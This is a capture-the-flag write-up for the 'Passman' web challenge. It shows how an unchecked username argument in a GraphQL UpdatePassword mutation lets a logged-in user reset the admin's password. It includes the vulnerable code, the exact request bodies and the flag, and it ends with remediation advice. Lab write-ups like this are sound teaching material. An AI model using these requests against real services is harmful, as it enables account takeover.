










# [Cyber Apocalypse 2023](index.md) - Web - Passman

> Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?

We're given a zip file with some code and a spawnable docker container.

The website seems to be a password vault of sorts. We can register an account and log in, and save passwords and stuff.





Looking at the code, we can see that there is an `entrypoint.sh` script. This script gets called when the Docker container starts, and it initializes the database with values. We can see that there is a placeholder flag stored in the `saved_passwords` table - this is not the user table for users that would log in, these are the saved passwords that the system is designed to save for you. _It saves them in plaintext so I probably wouldn't trust it much if I were you._

```sql
INSERT INTO passman.saved_passwords (owner, type, address, username, password, note)
VALUES
    ('admin', 'Web', 'igms.htb', 'admin', 'HTB{f4k3_fl4g_f0r_t3st1ng}', 'password'),
    ('louisbarnett', 'Web', 'spotify.com', 'louisbarnett', 'YMgC41@)pT+BV', 'student sub'),
    ('louisbarnett', 'Email', 'dmail.com', 'louisbarnett@dmail.com', 'L-~I6pOy42MYY#y', 'private mail'),
    ('ninaviola', 'Web', 'office365.com', 'ninaviola1', 'OfficeSpace##1', 'company email'),
    ('alvinfisher', 'App', 'Netflix', 'alvinfisher1979', 'efQKL2pJAWDM46L7', 'Family Netflix'),
    ('alvinfisher', 'Web', 'twitter.com', 'alvinfisher1979', '7wYz9pbbaH3S64LG', 'old twitter account');
```

So, we either need to SQL inject our way in and dump the table, or get into the `admin` account somehow.

After hitting our heads against the wall for quite a while trying to get a SQL inject working, we decided to try other things - it may be possible to do a SQL injection on this box, but we weren't able to get it to work. So - we'll need to get into the admin user somehow.

When we log in, it saves the session cookie as a JWT - A JSON Web Token. My first thought was to try tampering with this and setting the `type` to "none", but this system seemed to be more clever than that (this represented quite a few hours of attempts too).

So, my attention went to looking at how the website interacts with it's API when you add passwords and log in. It uses a GraphQL API for this - it sends a request to `/graphql` with a special JSON based query that the server interprets.



So time to study the `GraphqlHelper.js` and `database.js` files to see exactly how these queries work.

Using [Insomnia](https://insomnia.rest) to make requests easier to repeat, we can save our authentication cookie and start playing with the API a bit.

```json
{"query":"{ getPhraseList { id, owner, type, address, username, password, note } }"}
```


This request seems to be routed to the following code in `GraphqlHelper.js`:
```javascript
const queryType = new GraphQLObjectType({
    name: 'Query',
    fields: {
        getPhraseList: {
            type: new GraphQLList(PhraseSchema),
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.getPhraseList(request.user.username)
                        .then(rows => resolve(rows))
                        .catch(err => reject(new GraphQLError(err)))
                });
            }
        }
    }
});
```

After checking for a valid authentication cookie, it runs this code:
```js
db.getPhraseList(request.user.username)
```
Which then runs the code below found in `database.js`. It's using the `request.user.username` variable directly in the query, so this isn't something that we can easily tamper with, because it's coming from the internal authentication system.

```javascript
    async getPhraseList(username) {
		return new Promise(async (resolve, reject) => {
			let stmt = `SELECT * FROM saved_passwords WHERE owner = ?`;
			this.connection.query(
                stmt,
                [
                    String(username)
                ],
                (err, result) => {
                    if(err)
                        reject(err)
                    try {
                        resolve(JSON.parse(JSON.stringify(result)))
                    }
                    catch (e) {
                        reject(e)
                    }
			    }
            )
		});
	}
```
I did try to register a new user with a SQL injection for a name, but this did not appear to work.



So, it doesn't look like we'll be able to view other users' passwords by tampering with this query.

I then noticed that there is code to update a password, though this funcionality is missing in the website.

```js
const mutationType = new GraphQLObjectType({
    name: 'Mutation',
    fields: {
 <snip>

        UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
<snip>
```
```js
    async updatePassword(username, password) {
        return new Promise(async (resolve, reject) => {
            let stmt = `UPDATE users SET password = ? WHERE username = ?`;
            this.connection.query(
                stmt,
                [
                    String(password),
                    String(username)
                ],
                (err, _) => {
                    if(err)
                        reject(err)
                    resolve();
			    }
            )
        });
    }
```

Instead of a `query` this is a `mutation`, so time to go learn about mutations and how they work.
I also note that while the API endpoint checks to make sure that the user session is valid (`request.user`), it's _not_ passing this username to the function, it's instead getting the username from the request (`args.username`).

The code checks to see if the user has a valid login session, but not if that user matches the username that we're resetting a password for.

```js
db.updatePassword(args.username, args.password)
```

This means that if it lets us send a "mutation" to the database to update a password, it's probably trusting whatever username we give it - so we can probably reset other user's passwords.

I couldn't just copy an existing `updatePassword` request, since that functionality doesn't exist on the website, but I can see what happens when a user logs in. The login request looks like this:

```json
{
    "query": "mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "mark",
        "password": "abc123"
    }
}
```
I can send this query in Insomnia and it seems to work.



So what if I change `LoginUser` to `UpdatePassword`, and see what happens

```json
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "mark",
        "password": "abc123"
    }
}
```


Interesting. Now what if I change the username to `admin`.

```json
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "admin",
        "password": "abc123"
    }
}
```


Interesting. I should now be able to log in as the admin user using their new password.

Looks like we can, and we can see they've saved the flag in their password vault.



```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```


## How they could have prevented this kind of attack
They should either not gather the username for the `UpdatePassword` function from the query, or better yet do a check to make sure that the user matches, because then hypothetically you could also check if the logged in user is an admin, and allow admins to change any user's password. Or have a completely separate endpoint for "administrative" password resets.